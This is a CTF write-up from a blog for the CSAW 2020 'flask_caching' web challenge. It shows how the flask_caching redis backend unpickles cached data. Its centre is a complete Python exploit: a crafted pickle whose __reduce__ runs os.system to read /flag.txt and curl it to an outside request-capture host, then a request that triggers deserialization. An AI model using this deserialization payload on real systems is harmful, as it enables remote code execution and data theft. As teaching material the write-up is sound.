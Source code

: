 ```yaml
---
layout: post
author: Veryyes
title: Flask Caching
date: 2020-09-12 12:35:32 -0500
categories: CTF-writeup
ctf-category: Web
---
```


# flask_caching

## Overview
I'm usually terrible at web challenges, but this one was pretty fun. So the challenge is a flask webserver with flask_caching (wow didn't see that one) with a redis server backing the caching system
Here's the [source code](/assets/csaw-2020/flask_caching/clean_app.py)

Essentially you can give that website a string as the key and a file as its corresponding value, and it will cache the values. The same goes for the cached functions. 

## Investigating the Behavior
After setting up the dependencies and the redis server I started wiresharking and watch the traffic going on
![POST Request](/assets/csaw-2020/flask_caching/regular_request.png)

Heres a normal request to the webserver with the title "dongs" and a file named "test.txt" with it's contents being "test things"

After recieving the last request,the webserver tells the redis server to cache the values it received.
![Webserver to Redis](/assets/csaw-2020/flask_caching/regular_cache.png)

Interesting. Lets see what it looks like when the webserver caches a function.

![Function Cache](/assets/csaw-2020/flask_caching/func_cache.png)

I asked the webserver for `localhost:5000/test5`; packets to redis looks pretty similar. That `$-1` response means that value doesnt exist in the cache, so the webserver responds with a `SETEX` command to `flask_cache_view//test5`. In fact that last section of the respond is just the data that tells redis to cache some data. but the data its caching in this response is binary data and looks kinda like a pickled python object

## Very research, much good
Ok so the `flask_caching` module is serializing either the function or the function's results some how, so lets just read the code and find out what it's doing.

### flask_caching/backends/rediscache.py
```
    def load_object(self, value):
        """The reversal of :meth:`dump_object`.  This might be called with
        None.
        """
        if value is None:
            return None
        if value.startswith(b"!"):
            try:
                return pickle.loads(value[1:])
            except pickle.PickleError:
                return None
        try:
            return int(value)
        except ValueError:
            # before 0.8 we did not have serialization.  Still support that.
            return value
```

So looks like it just pickles the data and appends a '!' character at the beginning. This matches the data we saw in wireshark. If we drop the '!' and unpickle the binary data from the previous packet capture, we just get the string "test" which is the return value of the handler function.

Cool, so the webserver is unpickling data we send it. Thats definitely a thing thats vulnerable, so after a quick google search and some testing around on the CTF server I came up with a solution:

```
#!/usr/bin/env python3
import time
import requests
import pickle
import os

payload="test_file"

class jinja2:
    def __reduce__(self):
        return (os.system,('cat /flag.txt > /tmp/out; curl https://penis.free.beeceptor.com/ --data @/tmp/out',))

with open(payload, 'wb') as f:
    f.write(b'!')
    f.write(pickle.dumps(jinja2()))


# host = 'localhost'
host='web.chal.csaw.io'

url = "http://{}:5000/".format(host)

# Send a malicious payload to cache a object that will run a command to exfil the flag to a chosen endpoint
r = requests.post(url, 
    files={'content': (payload, open(payload,'rb'), 'application/octet-stream')}, 
    data={"title": "flask_cache_view//test5"}, 
)

print(r.text)


url += 'test5'

# Send a webrequest to the endpoint to call the unpickling code executing the payload
r = requests.get(url)
print(r.text)
```

So the way this works is that when you run pickle.load() on pickled data it runs the `__reduce__` function of that object by default. In this case I overrode `__reduce__` run bash commands.



- The class is named `jinja2` because the object being unpickled must existing in the namespace of the programming unpickling it
- `https://penis.free.beeceptor.com` is a free service that lets you send web requests too and displays them for easy display. This is what I used to exfiltrate the flag

The request body will have the flag:

```
flag{f1@sK_10rD}
```